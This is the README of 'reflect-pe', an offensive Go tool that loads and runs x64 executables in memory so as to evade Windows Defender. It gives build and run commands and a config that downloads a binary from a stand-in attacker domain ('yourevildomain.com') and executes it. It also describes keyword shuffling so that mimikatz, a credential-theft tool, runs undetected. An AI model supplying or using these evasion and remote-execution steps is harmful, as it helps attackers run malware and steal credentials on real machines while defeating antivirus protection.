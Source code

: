 # Reflect-pe
![Build](https://github.com/ayoul3/reflect-pe/workflows/Go/badge.svg)  

Reflectively load and execute an x64 Portable Executable in-memory. It does not bluntly allocate RWX memory all over the place. Each section gets its required set of permissions.   It also allows patching bytes on the fly to evade memory inspection (Windows Defender).  
Finally, it produces a self-contained executable so no ugly command lines to be inspected by Defender.  

**Supports x64 both unmanaged PE and managed PE (assemblies)**

## Usage  
1. [Prepare a Go environment](https://golang.org/dl/) to build the reflect-pe on Windows. You cannot cross compile it on a Linux/Unix machine because it uses Windows specific code.  

2. Prepare your `config.yml` file (see below)

3. Build the executable
```
git clone https://github.com/ayoul3/reflect-pe
cd reflect-pe
go build -v .
```
Run it and enjoy
```
reflect-pe.exe
reflect-pe.exe config_mimi.yml
reflect-pe.exe http://www.evilsite.com/config.yml
```

## Config
```
# BinaryPath can either be an HTTP url, a relative path or an absolute path.

BinaryPath: 'http://www.yourevildomain.com/file.exe'

# ReflectArgs is a string containing the arguments passed to your binary when executed in memory.

# For Unmanaged PE: First argument is the program's name. This parameter can be empty

# For managed PE: First argument is the real first argument

ReflectArgs: 'arg0 arg1 arg2'

# 3 options to load an unmanaged executable in memory:
# Wait: will call CreateThread, then wait 15 to 30 seconds before resuming the threat. This proved very effective against Windows Defender.

# <empty>: We do not wait between thread creation and execution

# Function: We overwrite the address of a Go method with the executable's entry point


ReflectMethod:  # wait, function or empty

# CLR runtime version. If the version specified is not found, the latest one will be taken. If it's empty it defaults to v2.  

CLRRuntime: v4

# 0: no logs, 1: Info logs, 2: Debug
LogLevel: 2

# Keywords to be replaced by a random shuffle. Both utf8 and unicode versions are replaced.

Keywords:
  - mimikatz
  - delpy
  - benjamin
  - delpy
```
Ps: config_mimi.yml contains the basic keywords to target to run a mimikatz without triggering Windows Defender

## Limitations
Reflect-pe only works for x64 dynamic executables on 64-bit intel machines.  

It's not stable when it comes to static binary for the good reason that hardcoded absolute addresses are difficult to find and translate to the new relocated address.
So it cannot load a go-binary for instance (among other reasons)  

I still did not try loading a DLL. There may be some small work to do to make it fully work.  


## Credit
* https://github.com/stephenfewer/ReflectiveDLLInjection  
* https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
* https://github.com/ropnop/go-clr